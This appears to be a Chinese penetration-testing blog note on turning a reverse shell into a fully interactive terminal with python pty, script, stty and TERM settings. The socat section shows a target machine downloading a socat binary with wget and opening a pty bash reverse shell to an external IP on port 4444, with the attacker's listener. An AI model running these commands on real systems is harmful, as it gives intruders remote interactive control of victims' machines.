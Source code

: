 ```yaml
---
layout: post
toc: true
title: "「BASH」:谈谈完全交互式的终端"
author: Bin4xin
categories:
    - blog
tags:
    - BASH
    - 笔记
permalink: /blog/2020/get/TTY/terminal/
---
```


写在前面，本方法适用于在反弹shell后把shell提升为完全交互式shell，也是自己实战了一段时间后摸索出来的，记一下笔记

## 完美的交互式shell

### python

```bash
$ python -c "import pty; pty.spawn('/bin/bash')"
# 输入 Ctrl+Z
$ stty raw -echo
$ fg
$ reset
$ export SHELL=bash
# or export TERM=xterm-256color
```

### srcipt based on bash

同样的，我在网上也找到另外一种方式：`script /dev/null/`这样：同理，也可以通过同样的方式获取到交互式shell：
```bash
script /dev/null
Ctrl-Z
stty raw -echo
fg
reset
```
这样我们在终端某个命令时，输入`ctrl+c`或者`ctrl+z`就不会直接中断shell。
这里转载搜到信息来进行展示，供大家参考：
```bash
stty -echo	#禁止回显，当在键盘上输入时，并不出现在屏幕上
stty echo 	#打开回显
stty raw 	#设置原始输入
stty -raw	#关闭原始输入
bg			#将一个在后台暂停的命令，变成继续执行
fg			#将后台中的命令调至前台继续运行
jobs		#查看当前有多少在后台运行的命令
ctrl+z 		#可以将一个正在前台执行的命令放到后台，并且暂停
clear  		#这个命令将会刷新屏幕，本质上只是让终端显示页向后翻了一页，如果向上滚动屏幕还可以看到之前的操作信息。
reset 		#这个命令将完全刷新终端屏幕，之前的终端输入操作信息将都会被清空
```
来源：<a href="https://saucer-man.com/information_security/233.html#cl-3">实现交互式shell的几种方式</a>

# socat

目标机

把socat上传到目标机器上或者直接下载
```bash
$ wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat

vuln_ip:
chmod +x /tmp/socat
./tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:47.52.233.92:4444
--
attack machine
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

### stty行列数:)
有的时候终端写入的命令太长，而终端行列不够长来显示所以会导致命令重叠、错杂，我们可以用下面的方法来让我们用这个shell用的更舒服点；

先看看自己机器上的stty配置信息:
```bash
root@ubuntu20-free:~# stty -a
speed 9600 baud; rows 35; columns 148; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R;
werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel -iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
```
`speed 9600 baud; rows 35; columns 148; line = 0;`这一段是我们所需要的信息；
```bash
rows 35; columns 148
配置我们的shell如下：
$ stty rows 35 cols 148
```

## 其他痛点
有的时候感觉terminal上太多命令了，用着用着会习惯性输入命令`clear`，然后你们就会看到如下现象：

```bash
# clear

TERM environment variable not set.

# set |grep TERM

TERM=dumb
```

如上，看term的配置信息，最后解决办法如下，设置term为`xterm`就可以了。

```bash
# export TERM=xterm

# set |grep TERM
TERM=xterm
_=TERM
```
之后就可以随意的clear清除命令辣！